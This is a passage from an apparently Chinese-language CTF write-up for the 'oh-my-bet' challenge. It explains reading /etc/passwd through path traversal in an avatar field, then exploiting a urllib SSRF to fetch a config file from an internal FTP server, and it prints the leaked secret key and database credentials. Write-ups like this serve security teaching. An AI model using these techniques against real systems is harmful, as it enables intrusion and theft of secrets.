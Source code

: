 {% endspoiler %}

## oh-my-bet

上来就是个注册页面，然而头像的选择实现得很怪，提交的表单中是`1.png`这样的文件名一样的东西，尝试目录穿越，发现确实可以读到`/etc/passwd`  
遂尝试读`/proc/self/cmdline`等，获取到源码，顺藤摸瓜看到`/app/utils.py`与`/app/config.py`

```python
# utils.py
...
def get_avatar(username):
    dirpath = os.path.dirname(__file__)
    user = User.query.filter_by(username=username).first()
    avatar = user.avatar
    if re.match('.+:.+', avatar):
        path = avatar
    else:
        path = '/'.join(['file:/', dirpath, 'static', 'img', 'avatar', avatar])
    try:
        content = base64.b64encode(urllib.request.urlopen(path).read())
    except Exception as e:
        error_path = '/'.join(['file:/', dirpath, 'static', 'img', 'avatar', 'error.png'])
        content = base64.b64encode(urllib.request.urlopen(error_path).read())
        print(e)
    return content
```

`utils.py`告诉我们用户头像是访问注册时提交的链接得到的，之后会缓存于redis中。观察可得此处的头像获取是个`urllib`任意协议ssrf  

```python
# config.py
...
    def ftp_login(self):
        ftp = FTP()
        ftp.connect("172.20.0.2", 8877)
        ftp.login("fan", "root")
        return ftp
...
    def get_config(self):
        f = self.ftp_login()
        f.cwd("files")
        buf_size = 1024
        f.retrbinary('RETR {}'.format('config.json'), self.callback, buf_size)
```

`config.py`又告诉我们flask启动时的环境变量位于`172.20.0.2`的ftp服务器中。利用上面的ssrf来取得config.json：

```json
{
    "secret_key": "f4545478ee86$%^&&%$#",
    "DEBUG": false,
    "SESSION_TYPE": "mongodb",
    "REMOTE_MONGO_IP": "172.20.0.5",
    "REMOTE_MONGO_PORT": 27017,
    "SESSION_MONGODB_DB": "admin",
    "SESSION_MONGODB_COLLECT": "sessions",
    "SESSION_PERMANENT": true,
    "SESSION_USE_SIGNER": false,
    "SESSION_KEY_PREFIX": "session:",
    "SQLALCHEMY_DATABASE_URI": "mysql+pymysql://root:starctf123456@172.20.0.3:3306/ctf?charset=utf8",
    "SQLALCHEMY_TRACK_MODIFICATIONS": true,
    "REDIS_URL": "redis://@172.20.0.4:6379/0"
}
```
